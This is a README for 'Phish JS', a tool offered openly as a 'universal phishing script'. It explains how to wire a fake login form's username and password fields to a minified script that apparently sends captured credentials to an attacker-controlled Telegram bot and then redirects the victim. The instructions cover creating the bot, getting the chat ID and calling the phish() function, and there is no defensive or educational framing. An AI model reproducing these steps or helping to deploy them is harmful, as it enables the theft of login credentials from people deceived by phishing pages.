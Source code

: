 <p align="center">
    <img src="https://i.postimg.cc/NG8KJWZ1/external-content-duckduckgo-com.png" alt="logo" width="154" height="154">
</p>

<h2 align="center">Phish JS</h2>

<p align="center">
     Universal phishing script + Telegram bot notification
</p>

[![https://t.me/xruin](https://img.shields.io/badge/sponsors-0-brightgreen)](https://t.me/xruin)
[![Privatium](https://img.shields.io/github/license/xbaysal11/privatium)](https://github.com/xbaysal11/phish-js)
[![Github](https://img.shields.io/github/followers/xbaysal11?style=social)](https://github.com/xbaysal11)
[![Privatium](https://img.shields.io/github/stars/xbaysal11/phish-js?style=social)](https://github.com/xbaysal11/phish-js)
[![https://t.me/xruin](https://img.shields.io/badge/%F0%9F%92%AC%20Telegram-xruin-blue.svg)](https://t.me/xruin)

---

# Documentation

## 1. Download files or clone
  - [Download files](https://github.com/xbaysal11/phish-js/archive/master.zip).

## 2. Put "phish.min.js" file to your project

## 3. Import "phish.min.js"
```
<script src="phish.min.js"></script>
```

## 4. Import "JQuery"
Via [CDN](https://code.jquery.com/)  is the quickest and easiest way to get JQuery on your website.

```
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>
```

## 5. Set ids to inputs and button

```
<input type="text" id='username'>
<input type="password" id='password'>

<button type="button" id='submit-button'>Login</button>
```

## 6. Get TOKEN and CHAT_ID

 - 1. Create bot with `@BotFather` and copy bot TOKEN
 - 2. Open your bot and type `/start` 
 - 3. Get chat id here:  `https://api.telegram.org/bot<TOKEN>/getUpdates`

## 7. Call function

```
<script>
    $(document).ready(function () {
        const BOT_TOKEN = 'your_bot_token',
            CHAT_ID = 'your_chat_id',
            REDIRECT_URL = 'default_redirect_url'
        phish(BOT_TOKEN, CHAT_ID, REDIRECT_URL);
    });
</script>
```
---

### SPONSORS [[Become a sponsor](https://t.me/xruin)]

[![https://t.me/xruin](https://img.shields.io/badge/sponsors-0-brightgreen)](https://t.me/xruin)

---

### LICENSE

Privatium is [GPL licensed.](https://github.com/xbaysal11/phish-js/blob/master/LICENSE)

